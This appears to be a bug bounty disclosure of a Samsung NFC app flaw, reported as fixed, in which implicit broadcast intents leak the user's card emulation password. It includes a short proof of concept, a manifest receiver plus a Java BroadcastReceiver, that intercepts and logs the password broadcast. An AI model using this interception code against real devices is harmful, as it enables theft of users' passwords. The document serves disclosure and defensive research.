

# Details

<table>
    <tr>
        <td>Name</td>
        <td>NFC</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.android.nfc</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.15</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.02.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$200</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found the NFC app using implicit intents in the `com/samsung/android/nfc/gpfelica/cardemulation/PasswordCheckDialog.java` file to send broadcasts. They contained the user-entered password for NFC card emulation.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<receiver android:name=".MyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.android.nfc.cardemulation.PasswordCheckDialog.ACTION_RESULT" />
    </intent-filter>
</receiver>
```

File `MyReceiver.java`:
```java
public class MyReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        DumpUtils.dump(intent, context.getClassLoader());
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)
